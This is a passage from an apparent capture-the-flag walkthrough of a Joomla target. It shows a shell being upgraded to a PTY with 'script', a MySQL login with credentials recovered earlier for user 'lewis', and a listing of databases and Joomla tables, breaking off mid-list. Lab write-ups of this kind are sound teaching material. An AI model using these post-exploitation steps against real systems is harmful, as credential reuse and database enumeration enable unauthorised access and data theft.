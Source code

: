 From the solution of the `Task 6` we know that there exists a mysql server, so let's try to login with the `lewis` credentials.

Now it doesn't work, but let's upgrade our shell and create a new PTY using bash.

```sh
script /dev/null -c bash
```

And now we can login as `lewis` to the `mysql`.

Let's see databases:

```mysql
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| joomla             |
| performance_schema |
+--------------------+
3 rows in set (0.01 sec)
```

```mysql
mysql> use joomla;
use joomla;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
show tables;
+-------------------------------+
| Tables_in_joomla              |
+-------------------------------+
| sd4fg_action_log_config       |
| sd4fg_action_logs             |
| sd4fg_action_logs_extensions  |
| sd4fg_action_logs_users       |
| sd4fg_assets                  |
| sd4fg_associations            |
| sd4fg_banner_clients          |
| sd4fg_banner_tracks           |
| sd4fg_banners                 |
| sd4fg_categories              |
| sd4fg_contact_details         |
| sd4fg_content                 |
| sd4fg_content_frontpage       |
| sd4fg_content_rating          |
| sd4fg_content_types           |
| sd4fg_contentitem_tag_map     |
| sd4fg_extensions              |
| sd4fg_fields                  |
| sd4fg_fields_categories       |
| sd4fg_fields_groups           |
| sd4fg_fields_values           |
| sd4fg_finder_filters          |
| sd4fg_finder_links            |
| sd4fg_finder_links_terms      |
| sd4fg_finder_logging          |
| sd4fg_finder_taxonomy         |
| sd4fg_finder_taxonomy_map     |
| sd4fg_finder_terms            |
| sd4fg_finder_terms_common     |
| sd4fg_finder_tokens           |
```